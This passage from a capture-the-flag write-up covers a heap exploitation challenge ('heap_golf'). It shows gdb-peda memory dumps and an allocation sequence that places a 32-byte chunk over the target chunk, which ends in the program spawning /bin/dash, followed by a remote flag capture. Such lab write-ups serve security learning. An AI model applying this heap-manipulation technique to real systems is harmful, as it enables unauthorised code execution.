 ```
0056| 0x7fffffffe038 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400817 in main ()
gdb-peda$ x/20gx 0x0000000000602010
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000031
0x602040:	0x0000000000602000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
gdb-peda$ i reg eax
eax            0x602040	0x602040
```

As a reminder, the goal is to write a "4" in the first chunk (the one at `0x602010`), and we are almost done since we have a pointer to this address. If we allocate 3 bigger useless chunks, and reallocate a 32-bytes one, it will be placed at the expected address because its size fits the available space of the first chunk:

```
gdb-peda$ continue
Continuing.
target green provisioned.
Size of green to provision: 256
Size of green to provision: 256
Size of green to provision: 256
Size of green to provision: 32
[New process 5820]
process 5820 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x40080d
```

Let's do it remotely:

![flag](/assets/res/CTFs/swamp19/heap_golf/flag.png)
